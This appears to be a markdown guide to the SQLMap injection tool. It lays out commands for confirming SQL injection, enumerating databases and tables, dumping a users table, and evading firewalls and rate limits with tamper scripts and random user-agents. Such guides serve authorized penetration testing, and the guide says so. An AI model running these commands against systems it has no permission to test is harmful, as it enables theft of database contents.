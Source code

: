 # SQLMap Guide

SQLMap is an automated tool for SQL injection and database takeover. This guide provides a structured approach to using SQLMap, including commands, workflows, and best practices for testing web applications (with explicit permission).

## Overview
SQLMap automates the process of identifying and exploiting SQL injection vulnerabilities. It supports various database management systems (e.g., MySQL, PostgreSQL, MSSQL) and offers options for enumerating databases, tables, and data.

## Prerequisites
- **Request File**: Create a `.txt` file (e.g., `request.txt`) capturing an HTTP request (e.g., via Burp Suite or browser developer tools) containing a potentially injectable parameter (e.g., `id=1` in a GET/POST request).
- **Permissions**: Ensure you have explicit authorization to test the target system.

## Basic SQLMap Command
```bash
sqlmap -r <request-file> --level 5 --risk 3
```
- `-r <request-file>`: Load the HTTP request from a file (e.g., `request.txt`).
- `--level 5`: Test all possible injection points (1-5, higher is more thorough).
- `--risk 3`: Include risky tests (1-3, higher increases risk of harmful queries).

## SQLMap Workflow
Follow this step-by-step process to enumerate and extract data from a vulnerable database:

1. **Test for SQL Injection**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3
   ```
   - Confirms if the target is vulnerable to SQL injection.
   - If successful, proceed to the next steps.

2. **Check for DBA Privileges**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3 --is-dba
   ```
   - Returns `True` if the user has database administrator privileges, `False` otherwise.

3. **Retrieve Database Banner**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3 --banner
   ```
   - Displays the database management system version and operating system details.

4. **Enumerate Databases**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3 --dbs
   ```
   - Lists all accessible databases on the server.

5. **Enumerate Tables in a Specific Database**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3 -D <database_name> --tables
   ```
   - Replace `<database_name>` with a database name from the `--dbs` output (e.g., `admin_database`).
   - Lists all tables in the specified database.

6. **Dump Data from a Specific Table**:
   ```bash
   sqlmap -r <request-file> --level 5 --risk 3 -D <database_name> -T <table_name> --dump
   ```
   - Replace `<table_name>` with a table name from the `--tables` output (e.g., `users`).
   - Dumps the schema and data from the specified table.

**Example Workflow**:
```bash
sqlmap -r request.txt --level 5 --risk 3
sqlmap -r request.txt --level 5 --risk 3 --is-dba
sqlmap -r request.txt --level 5 --risk 3 --banner
sqlmap -r request.txt --level 5 --risk 3 --dbs
sqlmap -r request.txt --level 5 --risk 3 -D admin_database --tables
sqlmap -r request.txt --level 5 --risk 3 -D admin_database -T users --dump
```

## Useful SQLMap Options
- **Authentication**:
  - `--auth-type <type>`: Specify authentication type (e.g., `Basic`, `Digest`).
  - `--auth-cred <username:password>`: Provide credentials for authenticated requests.
- **Proxy Support**:
  - `--proxy <ip:port>`: Route traffic through a proxy (e.g., `--proxy 127.0.0.1:8080` for Burp Suite).
- **Performance**:
  - `--threads <number>`: Set the number of concurrent threads (e.g., `--threads 10` for faster scans).
  - `--batch`: Run in non-interactive mode, automatically selecting default options.
- **Data Extraction**:
  - `--columns`: List columns in a specific table (use with `-D <database> -T <table>`).
  - `--dump-all`: Dump all data from all databases (use cautiously, as it can be resource-intensive).
  - `--sql-query <query>`: Execute a custom SQL query (e.g., `--sql-query "SELECT * FROM users"`).
- **Stealth**:
  - `--random-agent`: Use a random User-Agent to evade detection.
  - `--delay <seconds>`: Add a delay between requests to avoid rate-limiting.
  - `--tamper <script>`: Use tamper scripts to bypass WAFs (e.g., `--tamper space2comment`).

**Example with Proxy and Authentication**:
```bash
sqlmap -r request.txt --level 5 --risk 3 --proxy 127.0.0.1:8080 --auth-type Basic --auth-cred admin:password --dbs
```

## Best Practices
1. **Start with Lower Levels/Risks**: Begin with `--level 1 --risk 1` to test safely, then increase if needed.
2. **Use a Request File**: Capture requests accurately to ensure SQLMap targets the correct parameters.
3. **Monitor Output**: Check SQLMap’s verbose output (`-v 3` or higher) for detailed debugging.
4. **Respect Legal Boundaries**: Only test systems with explicit permission to avoid legal issues.
5. **Combine with Manual Testing**: Use SQLMap alongside manual techniques to validate findings.
6. **Handle Large Dumps**: For large datasets, use `--start <row>` and `--stop <row>` to dump specific rows.

## Common Issues and Solutions
- **WAF Blocking**: Use `--tamper` scripts (e.g., `--tamper randomcase`) or `--random-agent` to bypass web application firewalls.
- **Rate Limiting**: Add `--delay 1` or reduce `--threads` to slow down requests.
- **Connection Errors**: Verify the target URL and request file, and ensure the proxy (if used) is correctly configured.

## Additional Notes
- **Output Storage**: SQLMap automatically saves results in `~/.sqlmap/output/<target>`. Use `--output-dir <path>` to specify a custom directory.
- **Tamper Scripts**: Explore `/usr/share/sqlmap/tamper/` for scripts to evade filters (e.g., `space2comment.py` replaces spaces with comments).
- **Documentation**: Run `sqlmap --help` or check the official SQLMap GitHub for advanced options.